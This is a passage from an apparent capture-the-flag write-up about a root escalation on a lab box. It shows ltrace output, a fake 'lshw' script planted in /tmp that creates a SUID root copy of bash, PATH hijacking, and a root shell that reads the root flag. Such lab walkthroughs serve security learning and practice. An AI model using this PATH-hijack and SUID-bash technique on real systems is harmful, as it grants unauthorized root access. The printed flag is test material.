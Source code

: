 Debug with `ltrace`, it have `setuid(0)` that gives root for current context

And `popen()` calls a binary without full path, so I can do path injection

```bash
theseus@magic:~$ ltrace /bin/sysinfo
_ZNSt8ios_base4InitC1Ev(0x556a0c1ef131, 0xffff, 0x7ffcb0411568, 128)                                                             = 0
__cxa_atexit(0x7fda9b52ba40, 0x556a0c1ef131, 0x556a0c1ef008, 6)                                                                  = 0
setuid(0)                                                                                                                        = -1
setgid(0)                                                                                                                        = -1
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc(0x556a0c1ef020, 0x556a0bfed8f8, -160, 0)                                 = 0x556a0c1ef020
_ZNSolsEPFRSoS_E(0x556a0c1ef020, 0x7fda9b59b870, 0x556a0c1ef020, 0x556a0bfed92d====================Hardware Info====================
)                                                 = 0x556a0c1ef020
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev(0x7ffcb0411430, 0x556a0bfed92e, 0, 2880)                               = 0x7ffcb0411440
popen("lshw -short", "r")                                                                                                        = 0x556a0d435280
fgets(WARNING: you should run this program as super-user.
```

Since the `popen()` have `"r"` argument, I will not get interactive shell

Give bash SUID instead

```bash
theseus@magic:~$ cp /bin/bash /tmp/b
theseus@magic:~$ echo -e '#!/bin/bash\nchown root:root /tmp/b && chmod +s /tmp/b' > /tmp/lshw
theseus@magic:~$ chmod +x /tmp/lshw
theseus@magic:~$ export PATH=/tmp:$PATH
theseus@magic:~$ /bin/sysinfo
[...]
```

```bash
theseus@magic:~$ ls -la /tmp/b
-rwsr-sr-x 1 root root 1113504 Feb  8 04:50 /tmp/b
theseus@magic:~$ /tmp/b -p
b-4.4# id
uid=1000(theseus) gid=1000(theseus) euid=0(root) egid=0(root) groups=0(root),100(users),1000(theseus)
b-4.4# cat /root/root.txt
c8321a307c3248704ac285978a1bfb53
b-4.4#
```

# Additional
---
